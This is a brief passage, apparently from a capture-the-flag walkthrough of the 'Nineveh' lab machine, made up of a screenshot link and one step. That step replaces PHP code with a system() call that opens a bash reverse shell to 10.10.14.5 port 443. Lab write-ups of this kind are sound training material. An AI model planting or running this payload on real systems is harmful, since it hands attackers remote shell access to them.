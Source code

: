 ![alt text](./img/nineveh27.PNG?raw=true)  

Great, now let’s change the php code to the above:  
- <?php system("bash -c ''bash -i >& /dev/tcp/10.10.14.5/443 0>&1''");?>  